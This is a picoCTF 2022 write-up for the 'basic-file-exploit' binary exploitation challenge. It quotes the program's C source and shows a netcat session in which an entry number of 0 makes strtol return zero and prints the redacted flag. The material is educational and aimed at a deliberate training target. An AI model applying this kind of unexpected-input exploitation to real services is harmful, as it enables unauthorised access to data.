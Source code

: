 # basic-file-exploit

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Medium
Tags: picoCTF 2022, Binary Exploitation
Author: WILL HONG

Description:
The program provided allows you to write to a file and read what you wrote from it. 
Try playing around with it and see if you can break it!

Connect to the program with netcat:
$ nc saturn.picoctf.net 50959

The program's source code with the flag redacted can be downloaded here.
 
Hints:
1. Try passing in things the program doesn't expect. Like a string instead of a number.
```

Challenge link: [https://play.picoctf.org/practice/challenge/252](https://play.picoctf.org/practice/challenge/252)

## Solution

### Study the source code

The `main` function of the program look like this

```c
int main(int argc, char** argv) {
  char input[3] = {'\0'};
  long command;
  int r;

  puts("Hi, welcome to my echo chamber!");
  puts("Type '1' to enter a phrase into our database");
  puts("Type '2' to echo a phrase in our database");
  puts("Type '3' to exit the program");

  while (true) {   
    r = tgetinput(input, 3);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
    
    if ((command = strtol(input, NULL, 10)) == 0) {
      puts("Please put in a valid number");
    } else if (command == 1) {
      data_write();
      puts("Write successful, would you like to do anything else?");
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
    } else if (command == 3) {
      return 0;
    } else {
      puts("Please type either 1, 2 or 3");
      puts("Maybe breaking boundaries elsewhere will be helpful");
    }
  }

  return 0;
}
```

Nothing much interesting here and the program even tells us that `breaking boundaries elsewhere will be helpful`.

Let's see were the flag is printed, that is in the `data_read` function

```c
static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}
```

If we input something which input to the `strtol` function returns 0, we get the flag.  
The [strtol](https://www.tutorialspoint.com/c_standard_library/c_function_strtol.htm) function converts strings to long integers.

A return value of zero signals a failure in the convertion but if we input the string `0` we also get a zero value so let's use that.

### Plan of attack

We can't "reach" the `data_read` function directly since the program checks if there is data available
as we see in this code snippet of `main`

```c
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
```

So we start by entering some bogus data.

Then we try to read and when asked for the entry we select entry number `0`.

### Connect to the server and get the flag

Finally, let's exploit and get the flag

```bash
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Basic_File_Exploit]
└─$ nc saturn.picoctf.net 50959
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
picoCTF
picoCTF
Please enter the length of your data:
7
7
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [C (programming language) - Wikipedia](https://en.wikipedia.org/wiki/C_(programming_language))
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [strtol() function - Tutorials Point](https://www.tutorialspoint.com/c_standard_library/c_function_strtol.htm)
